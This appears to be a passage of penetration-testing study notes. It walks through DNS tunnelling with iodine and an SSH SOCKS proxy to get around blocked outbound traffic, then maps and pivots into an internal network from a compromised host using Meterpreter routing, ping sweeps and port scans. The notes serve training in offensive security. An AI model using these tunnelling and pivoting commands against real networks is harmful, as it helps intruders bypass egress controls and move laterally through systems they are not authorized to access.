 Let's check if the Internet access is blocked except for the DNS traffic.
`nc www.google.com 80`: it fails or times out, so HTTP traffic is blocked.
`cat /etc/resolv.conf`: to check if we are allocated to a DNS server (usually this is an automatic network configuration).
`ping www.google.com -c 3`: to see if the DNS resolver can resolve a host on the Internet. In our case we cannot ping but the domain name is resolved to its IP address, so ICMP traffic is blocked but the DNS traffic is not (over UDP).

Let's see if we can tunnel some data over DNS.
`iodine -P <Password> <DNSNameServer> -T CNAME -r -f` (e.g. `iodine -P 'qwerty1234' ns1.cyberallthethings.com -T CNAME -r -f`): where `-T` to specify the DNS record type to use, `-r` to disable raw UDP mode, `-f` to keep the client running in background. `ifconfig`: to check the network interfaces, with a new `dns0` interface associated to a new (tunnel) IP in the same range (e.g `10.0.0.2`) of the server `<ServerTunnelIP>` IP address.

If everything goes well, we will have an active DNS tunnel through our local DNS resolver to our DNS server (tunnel endpoint).
We can use Wireshark to capture and analyze the DNS traffic using the following filter: `dns`.

Now, we can create a local SSH socks proxy server (so our traffic is encrypted, providing an extra layer of security) by connecting to the remote tunnel IP address (e.g. `10.0.0.1`).
`ssh <Username>@<ServerTunnelIP> -D<ClientTunnelIP>:<LocalPort> -N -C` (e.g. `ssh user@10.0.0.1 -D 10.0.0.2:1234 -N -C`): where `-D` to create a local port we will use for our socks proxy, `-C` to enable compression to help with transfer speed.

We can configure our browser to use our local SSH socks server IP address (e.g. `10.0.0.2`) to make the HTTP/HTTPS traffic go through the DNS tunnel in the browser `Proxy Configuration` settings (e.g. `SOCKS Host: 10.0.0.2`, `SOCKS Port: 1234`).
Now, if we go to `www.ipinfo.io` we will see the IP address of the DigitalOcean Droplet (e.g. `104.131.12.224`).

### Mapping the Internal Network - Study Guide

(03/59) The main purpose is to find other exploitable machines in the organization internal network. So we use the first exploitated machine (the ingress point) as a *bridge*.

`ipconfig /all` (Windows) or `ifconfig` (Linux) or `ifconfig` (Meterpreter): to see the network interfaces (and find other subnets).
`route print` (Windows) or `route -v` (Linux) or `route` (Meterpreter): to see the IP routing tables.
`arp`: to see the host ARP cache.
`netstat -an`: to see all the active host connections and all the associated processes.
`run arp_scanner -r <TargetNetwork>`: to detect the other hosts on the internal network.
`use post/multi/gather/ping_sweep`, `show options`, `set RHOSTS <TargetNetwork>`, `set SESSION 1`, `run`: to find the alive hosts.
`netenum` is another powerful Meterpreter script to enumerate the internal network.
We need to keep track of our findings, in order to start summarizing an internal network map.

(26/59) *Pivoting*: use the ingress point for lateral movements towards other machines of the internal network.
Remember that these (unexposed) hosts are not directly reachable from the attacker machine.

`route add <TargetNetwork> <NetworkSubmask> <SessionID>` (e.g. `route add 10.10.10.0 255.255.255.0 2`) or `run autoroute -s <TargetNetwork>` (e.g. `run autoroute -s 10.10.10.0/24`): to use the exploited machine (through our Meterpreter session) as a *router* for our communication with the organization internal network, so from the Meterpreter session to the target (internal) machine.
`run autoroute -p`: to check the current routing table.
`use auxiliary/scanner/portscan/tcp`, `show options`, `set RHOSTS <TargetNetwork>`, `run`: to run a TCP port scan on an internal IP addresses range, through the ingress point.
`route flush`: to flush the routes, if we need to.
